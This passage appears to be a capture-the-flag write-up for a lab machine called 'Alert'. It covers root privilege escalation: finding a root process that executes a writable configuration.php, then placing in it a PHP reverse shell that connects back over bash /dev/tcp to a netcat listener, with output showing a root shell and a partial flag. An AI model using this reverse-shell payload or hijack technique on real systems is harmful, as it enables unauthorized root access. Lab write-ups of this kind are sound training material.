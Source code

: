 ### File Permission Analysis

Found writable directories and files:
```bash
albert@alert:/opt/website-monitor$ ls -lah monitors
total 24K
drwxrwxrwx 2 root root 4.0K Oct 12 01:07 .
drwxrwxr-x 7 root root 4.0K Oct 12 01:07 ..
-rw-r--r-x 1 root root 5.5K Dec 17 22:01 alert.htb
-rw-r--r-x 1 root root 5.5K Dec 17 22:01 statistics.alert.htb
```

Noticed interesting processes running as root:
```bash
root        1009  0.0  0.0   2636   728 ?        S    03:44   0:00 inotifywait -m -e modify --format %w%f %e /opt/website-monitor/config
```

Using `pspy` to monitor process execution revealed:
```
2024/12/18 05:20:49 CMD: UID=0     PID=28998  | /usr/bin/php -f /opt/website-monitor/config/configuration.php
2024/12/18 05:20:49 CMD: UID=0     PID=28999  | /usr/bin/cp /root/scripts/config/configuration.php /opt/website-monitor/config/
```

### Root Exploitation

Discovered that the `configuration.php` file:
1. Was being executed as root when modified
2. Was being reset after execution

Created a PHP reverse shell and placed it in `configuration.php`:
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.87/4444 0>&1'");
?>
```

Started a netcat listener:
```bash
❯ ncat -l 10.10.14.87 -nvp 4444
```

Successfully received a shell as root and obtained the root flag:
```shell
❯ rev
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.87:4444
Ncat: Connection from 10.129.190.140:45714.
Linux alert 5.4.0-200-generic #220-Ubuntu SMP Fri Sep 27 13:19:16 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 04:54:08 up  1:10,  2 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
albert   pts/0    10.10.14.87      03:45    5.00s  0.11s  0.11s -bash
albert   pts/1    10.10.14.87      03:52   10:36   0.26s  0.26s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
9cfec44f73c3ba1023d3--snip--
```
